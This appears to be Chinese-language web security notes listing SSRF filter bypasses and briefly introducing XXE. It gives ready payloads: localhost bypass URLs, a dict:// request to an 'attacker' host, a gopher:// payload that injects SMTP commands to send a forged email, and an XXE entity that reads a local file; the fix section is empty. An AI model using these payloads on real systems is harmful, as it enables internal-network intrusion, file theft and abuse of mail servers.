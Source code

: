 **ssrf绕过**

1. `[::]`绕过localhost

   `http://[::]:80`==>`http://127.0.0.1:80`

2. 利用@

   `http://example.com@127.0.0.1`

3. 短地址

   `http://dwz.cn/11SMa  >>>  http://127.0.0.1`

4. 句号

   `127。0。0。1  >>>  127.0.0.1`

5. 进制转换

6. 特殊域名：xip.io(原理是DNS解析)

   `http://127.0.0.1.xip.io/`

7. 其他协议

   ```
   Dict://
   dict://<user-auth>@<host>:<port>/d:<word>
   ssrf.php?url=dict://attacker:11111/
   SFTP://
   ssrf.php?url=sftp://example.com:11111/
   TFTP://
   ssrf.php?url=tftp://example.com:12346/TESTUDPPACKET
   LDAP://
   ssrf.php?url=ldap://localhost:11211/%0astats%0aquit
   Gopher://
   ssrf.php?url=gopher://127.0.0.1:25/xHELO%20localhost%250d%250aMAIL%20FROM%3A%3Chacker@site.com%3E%250d%250aRCPT%20TO%3A%3Cvictim@site.com%3E%250d%250aDATA%250d%250aFrom%3A%20%5BHacker%5D%20%3Chacker@site.com%3E%250d%250aTo%3A%20%3Cvictime@site.com%3E%250d%250aDate%3A%20Tue%2C%2015%20Sep%202017%2017%3A20%3A26%20-0400%250d%250aSubject%3A%20AH%20AH%20AH%250d%250a%250d%250aYou%20didn%27t%20say%20the%20magic%20word%20%21%250d%250a%250d%250a%250d%250a.%250d%250aQUIT%250d%250a
   ```

   

#### **修复**：





## XXE

XXE就是XML外部实体注入。

**危害**：

1.任意文件读取：`<!ENTITY myentity  SYSTEM  "file:///C:/XXE.txt">`

2.拒绝服务攻击
